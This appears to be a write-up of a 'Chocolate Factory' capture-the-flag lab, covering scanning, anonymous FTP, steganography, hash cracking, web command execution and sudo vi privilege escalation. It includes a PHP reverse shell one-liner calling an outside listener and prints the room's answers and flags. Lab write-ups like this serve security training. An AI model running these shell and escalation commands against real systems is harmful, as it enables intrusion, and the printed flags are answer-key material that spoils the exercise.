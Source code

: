 # Chocolate Factory

* IP = 10.10.132.98

## Questions/Tasks:

### Task 1(Introduction):

1. Deploy the machine!

*No Answers Needed*

### Task 2(Challenges):

* Start the initial enumeration with Nmap to find all the open ports on the given server.

### Nmap Scan Results:
`nmap -sC -sV -oN nmap_initial $IP -v`
* `-sC` means search with default Nmap scripts; equivalent to `--script=default`
* `-sV` checks for versions on running services
* `-v` tells for verbose output
* `-oN` tells to save the output in a file i.e *nmap_initial*

* Since port 80 is running, let's check out what directories are present using gobuster:

### GoBuster Scan Results:
`gobuster -u "http://IP/" -w common.txt -x txt,html,php`
```bash
=====================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/home.php (Status: 200)

```

* On the other hand let's try ftp login with `Anonymous` and no password<br>
![Screenshot](./assets/2.png)
* We find an image there and get it to our local machine:<br>
![Image](./ftp/gum_room.jpg)
* Trying some stego enumeration technique on the image we get this result:<br>
![Screenshot](./assets/3.png)<br>
* Check out the [file](./ftp/b64.txt) contents...it's clear from the name though, the contents is in base64.
* Try to decode it...and 😯😯 we find a probable shadow file<br> saved in [output](./ftp/b64.decoded.txt) file<br>
![Screenshot](./assets/4.png)
* At the end of the file there is a `sha512` hash of Charlie's password, copy the hash and crack it with Hashcat or John The Ripper...as you wish.
`hashcat -m1800 -a0 hash.txt rockyou.txt -O `
* `-m1800` tells hashcat the hash is sha512 hash
* `-a0` specifies to perform dictionary cracking method
* The copied hash is saved in *hash.txt*
* `-O` to optimize the performance
* You can use any wordlist, it's just an example given as *rockyou.txt*<br>
![Screenshot](./assets/5.png)

* The webpage looks like this:<br>
![Screenshot](./assets/1.png)
* Login with `charlie` and `cn7824`
* We are brought to */home.php*:<br>
![Screenshot](./assets/6.png)
* We can execute commands here, let's try with `ls`<br>
![Screenshot](./assets/7.png)
* Try to find the contents of **key_rev_key** with `cat key_rev_key`<br>
![Screenshot](./assets/8.png)

1. Enter the key you found!

**Ans-b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='**

2. What is Charlie's password?

**Ans-cn7824**

* In <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a> you can search for some reverse shell commands that we can execute on the page to get a shell:
`php -r '$sock=fsockopen("10.4.50.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
* Set up a netcat listener on local machine before executing the above command:
`nc -lnvp 4444`<br>
![Screenshot](./assets/9.png)
* This is a *low-privileged* www-data user, so firstly we need to find something to become Charlie.
* Inside Charlie's home folder we found this **teleport** file(which is a rsa private key):<br>
![Screenshot](./assets/10.png)
* Copy the file into local machine, save it as id_rsa, change its permissions with `chmod 600 id_rsa` and ssh into the server using:
`ssh -i id_rsa charlie@IP`
* And just like that we get the user flag.

3. change user to charlie

*No Answers Needed*

4. Enter the user flag

**Ans-flag{cd5509042371b34e4826e4838b522d2e}**

* Checking the commands that can be run as sudo with `sudo -l` gives us:<br>
![Screenshot](./assets/11.png)
* To escalate privileges with **vi** we can search from <a href="https://gtfobins.github.io/">Gtfobins</a>:
`sudo vi -c ':!/bin/sh' /dev/null`
* And just like that we are root!!😸
* If you want, you can elevate the shell with `/bin/bash -p`.
* In the /root directory there is no root.txt file instead there is a root.py...which seems to decode the root flag for us...<br>
![Screenshot](./assets/13.png)
* As the hint says, execute the file with `python` and not `python3`.
* We are prompted for a key...I was stuck here for a bit of time figuring out what could be the key🤔
* But then I remembered there was a previous question about some key...Tried that out and finally found the flag:
![Screenshot](./assets/12.png)<br>
* Whoa what a relief!!😅

5. Enter the root flag

**Ans-flag{cec59161d338fef787fcb4e296b42124}**



* **P.S**-This challenge also can be solved in various other ways for example you can bruteforce the login page to find the password, next you can just `su charlie` and give the password to elevate from *www-data* to *charlie*. The privilege escalation from *charlie* to *root* remains the same though. Try all the possibilities..its really fun😉.
Happy Hacking!!
